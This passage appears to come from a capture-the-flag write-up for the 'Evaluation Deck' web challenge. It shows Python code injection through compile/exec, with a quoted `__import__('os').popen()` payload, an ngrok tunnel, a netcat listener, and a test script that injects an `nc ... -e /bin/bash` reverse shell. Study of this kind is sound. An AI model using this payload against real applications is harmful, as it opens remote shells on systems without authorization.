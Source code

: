 **Output:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# python3 exploit.py
hello
[...]
```

**In an [SethSec](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html) article talking about injecting code in the python web applications, it has a payload:**

> Better yet, now that we have import and popen as one expression, in most cases, you don't even need to use compile at all:

```py
__import__('os').popen('COMMAND').read()
```

**Hmm... Let's get reverse shell then!**

**First, let me test it locally:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# ngrok tcp 9001
[...]
Web Interface                 http://127.0.0.1:4040                                                    
Forwarding                    tcp://0.tcp.ap.ngrok.io:14434 -> localhost:9001                          
                                                                                                       
Connections                   ttl     opn     rt1     rt5     p50     p90                              
                              0       0       0.00    0.00    0.00    0.00
```

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
```

**Change the payload to a reverse shell:**
```py
#!/usr/bin/env python3

def count():
	current_health = 0
	operator = ",__import__('os').popen('nc 0.tcp.ap.ngrok.io 14434 -e /bin/bash').read(),"
	attack_power = 0

	result = {}

	code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
	exec(code, result)
	
	return result
	
if __name__ == '__main__':
	print(count())
```
